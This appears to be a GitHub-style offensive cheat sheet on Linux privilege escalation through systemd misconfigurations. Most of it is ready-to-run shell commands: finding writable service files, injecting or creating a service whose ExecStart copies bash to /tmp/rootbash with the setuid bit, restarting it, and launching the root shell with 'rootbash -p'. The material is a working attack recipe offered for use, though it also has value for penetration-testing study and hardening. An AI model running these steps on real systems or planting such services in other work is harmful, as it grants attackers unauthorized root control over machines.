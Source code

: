 # Abusing SystemD for Privilege Escalation

SystemD misconfigurations can lead to privilege escalation if users have write access to existing service files or can create new ones. By modifying or adding a malicious service, attackers can execute arbitrary commands as root.

## 1. Exploiting Writable SystemD Service Files

If a user has write permissions on a systemd service file that runs as root, they can modify it to execute arbitrary commands.

### Find writable service files:
```sh
find /etc/systemd/system/ -type f -writable 2>/dev/null
```

### Modify the service file:
```sh
echo -e "[Service]\nExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash'" | sudo tee -a /etc/systemd/system/vulnerable.service
```

### Reload and restart the service:
```sh
sudo systemctl daemon-reload
sudo systemctl restart vulnerable.service
```

### Escalate privileges:
```sh
/tmp/rootbash -p
```

## 2. Creating a New SystemD Service

If a user can create a new service in `/etc/systemd/system/`:

### Create a malicious service file:
```sh
cat <<EOF > /tmp/root.service
[Unit]
Description=Root Shell

[Service]
Type=simple
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash'

[Install]
WantedBy=multi-user.target
EOF
```

### Move and enable the service:
```sh
sudo mv /tmp/root.service /etc/systemd/system/root.service
sudo systemctl daemon-reload
sudo systemctl enable root.service
sudo systemctl start root.service
```

### Escalate privileges:
```sh
/tmp/rootbash -p
```

